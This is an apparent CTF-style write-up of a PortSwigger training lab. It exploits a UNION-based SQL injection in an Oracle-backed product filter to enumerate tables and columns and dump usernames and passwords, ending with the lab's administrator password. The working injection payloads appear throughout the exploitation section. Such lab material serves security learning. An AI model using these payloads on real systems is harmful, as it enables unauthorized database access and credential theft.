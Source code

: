 # SQL injection attack, listing the database contents on Oracle

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle), you'll learn: SQL injection attack, listing the database contents on Oracle! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab contains an [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the `administrator` user.

## Exploitation

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-10/images/images/Pasted%20image%2020221205070955.png)

**In the previous labs, we found an SQL injection vulnerability in the product category filter:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-10/images/images/Pasted%20image%2020221205071046.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-10/images/images/Pasted%20image%2020221205071100.png)

And we can confirm that **this table has 2 columns.**

**However, when we use the `UNION` clause, it outputs an `500 Internal Server Error` HTTP status:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-10/images/images/Pasted%20image%2020221205071326.png)

In the [7th lab](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-7/README.md), we found that **Oracle database must have `FROM` clause in `SELECT` statement.**

**To solve this error, we can use the `dual` in-memory table exploit the SQL injection vulnerbility in the product category filter.**
```sql
' UNION SELECT NULL,NULL FROM dual-- -
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-10/images/images/Pasted%20image%2020221205071426.png)

**Next, we need to find which column accepts string data type:**
```sql
' UNION SELECT 'string1','string2' FROM dual-- -
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-10/images/images/Pasted%20image%2020221205071514.png)

Both columns are accepting string data type.

**To extract the credentials of the `administrator` user password, I'll:**

- Find all tables that's related to `user`:

```sql
' UNION SELECT NULL,table_name FROM all_tables WHERE table_name LIKE '%user%'-- -
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-10/images/images/Pasted%20image%2020221205071908.png)

The table `USERS_GCZDLS` looks sussy, let's list all columns from that table.

- Listing all columns from table `USERS_GCZDLS`:

```sql
' UNION SELECT NULL,column_name FROM all_tab_columns WHERE table_name='USERS_GCZDLS'-- -
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-10/images/images/Pasted%20image%2020221205072106.png)

Table `USERS_GCZDLS` columns: `PASSWORD_BGCXGZ`, `USERNAME_SVWHIB`

Then, we can extract all the data from that table.

- Extracting data from table `USERS_GCZDLS`:

```sql
' UNION SELECT NULL,USERNAME_SVWHIB||':'||PASSWORD_BGCXGZ FROM USERS_GCZDLS-- -
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-10/images/images/Pasted%20image%2020221205072242.png)

Found `administrator` password!

- Username: administrator
- Password: nrywnjxq5v4lj96pzwtn

**Let's login as `administrator`:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-10/images/images/Pasted%20image%2020221205072332.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/SQL-Injection/SQLi-10/images/images/Pasted%20image%2020221205072343.png)

We're user `administrator`!!

# What we've learned:

1. SQL injection attack, listing the database contents on Oracle